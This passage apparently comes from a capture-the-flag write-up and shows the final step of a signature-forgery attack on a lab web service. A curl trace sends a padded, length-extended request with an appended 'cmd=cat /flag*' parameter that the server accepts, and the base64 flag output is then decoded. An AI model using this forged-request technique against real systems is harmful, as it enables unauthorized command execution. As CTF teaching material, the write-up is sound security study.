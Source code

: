 This is the response we obtain, `service.py` happily forward the command (the second `cmd` url parameter) to the `executor.py`, because the signature is valid as far as it is concerned.

And this is the response we get from `curl`

```bash
*   Trying 172.17.0.2:80...
* TCP_NODELAY set
* Connected to 172.17.0.2 (172.17.0.2) port 80 (#0)
> GET /api/run?expiry=1608594782&cmd=ls%80%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%C0%01%00%00%00%00%00%00&cmd=cat+/flag* HTTP/1.1
> Host: 172.17.0.2
> Accept-Encoding: deflate, gzip, br
> User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:84.0) Gecko/20100101 Firefox/84.0
> Accept: */*
> Accept-Language: en-US,en;q=0.5
> Referer: http://172.17.0.2/
> Connection: keep-alive
> Cookie: signature=d50ee7a883c1c65f15ab557d51b2e08e
> Pragma: no-cache
> Cache-Control: no-cache
> 
* Mark bundle as not supporting multiuse
< HTTP/1.1 200 OK
< Server: nginx/1.14.2
< Date: Mon, 21 Dec 2020 23:53:01 GMT
< Content-Type: application/json
< Content-Length: 53
< Connection: keep-alive
< Keep-Alive: timeout=5
< 
{"status":0,"stderr":"","stdout":"aHhwe0ZMQUd9Cg=="}
* Connection #0 to host 172.17.0.2 left intact

```

The `stdout` returned is base64 encoded, I used the browser console to decode it

![Decoded response](images/decode-response.png)

And that's it.








